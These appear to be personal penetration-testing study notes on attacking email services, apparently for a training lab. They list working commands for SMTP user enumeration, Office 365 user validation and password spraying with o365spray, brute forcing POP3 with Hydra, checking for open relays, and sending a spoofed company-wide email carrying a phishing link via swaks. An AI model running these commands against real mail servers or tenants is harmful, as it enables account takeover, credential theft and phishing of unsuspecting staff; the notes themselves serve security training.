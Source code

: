 user enumeration
```shell-session
smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7
```

Office 365 enumeration
```shell-session
python3 o365spray.py --validate --domain msplaintext.xyz
```

```shell-session
python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz 
```
Credential Brute Forcing
brute pop3 [[Hydra]]
can also try o365spray/MailSniper/CredKing
``
```shell-session
python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz
```

# Open Relay 
An open relay -> SMTP server that allows unauthenticated email relay
Abuse -> send emails as non-existing users/ spoofing someone else's email

See if it allows open relay
```
nmap -p25 -Pn --script smtp-open-relay 10.10.11.213
```
Spoof email
```shell-session
swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213
```

